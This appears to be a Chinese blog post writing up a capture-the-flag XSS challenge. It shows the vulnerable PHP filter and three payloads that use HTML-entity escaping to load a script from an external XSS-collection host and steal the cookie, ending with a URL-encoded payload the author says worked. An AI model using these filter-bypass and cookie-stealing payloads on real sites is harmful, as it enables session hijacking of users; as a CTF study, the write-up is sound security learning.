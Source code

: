 ```yaml
---
layout:     post
title:      2019-05-02 收获 总结
subtitle:  ctf xss1解题
date:       2019-05-02
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```

##  0x1 题目描述
![](https://wx1.sinaimg.cn/mw1024/0079f8Holy1g2nf3idwhej30g70cat93.jpg)

## 0x2 所用工具和预备知识
1. xss平台
2. HTML的&lt; &gt;&amp;&quot;&copy;分别是<，>，&，"，©;的转义字符

## 0x3 解题步骤
题目给出了一段php代码
```
<form action="" method="GET"> 
        <input type="text" name="name" autofocus="autofocus" /> 
        <input type="submit" /> 
</form> 

<?php 
if(isset($_GET['name'])){ 
        $text = $_GET['name']; 
        $text = str_replace('"','',$text); 
        $text = str_replace('>','',$text); 
        $text = str_replace('<','',$text); 
        $text = str_replace("\n",'',$text); 
        echo "<svg><script>var a=\"". $text . "\"</script></svg>"; 
} 
echo '<hr />'; 
show_source(__FILE__); 

```
代码的功能是将",>,<,\n替换为空，所以应想办法绕过这四个符号。创建项目后提示有以下几种植入方式：
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g2nf3iehw1j30ml0ev3zd.jpg)
在xss.php进行测试，得到url。
### 第一次尝试
payload:
```
";<script src=https://xsspt.com/toKSHd></script>
```
转义" : < > 等符号：
```
 &quot;;&lt;script&#32;src=http://xsspt.com/toKSHd&gt;&lt;/script&gt;
```
没能获取到cookie。
### 第二次尝试
payload：
```
";ducoment.write("<script src=http://xsspt.com/toKSHd></script>");
```
转义绕过:
```
&quot;;document.write(&quot;&lt;script&#32;src=http://xsspt.com/toKSHd&gt;&lt;/script&gt;&quot;);
```
没能获取到cookie。
### 第三次尝试
payload:
```
";document.write("</svg><script src=http://xsspt.com/toKSHd></script><svg><script>");
```
转义绕过：
```
&quot;;document.write(&quot;&lt;/svg&gt;&lt;script&#32;src=http://xsspt.com/toKSHd&gt;&lt;/script&gt;&lt;svg&gt;&lt;script&gt;&quot;);//
```
将URL
```
/xss.php?name=%26quot%3B%3Bdocument.write%28%26quot%3B%26lt%3Bscript%26%2332%3Bsrc%3Dhttp%3A%2F%2Fxsspt.com%2FtoKSHd%26gt%3B%26lt%3B%2Fscript%26gt%3B%26quot%3B%29%3B
```
输入，并输入md5编码，获取到cookie，也获取到flag。
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2nf3ib6gvj30bw04haa1.jpg)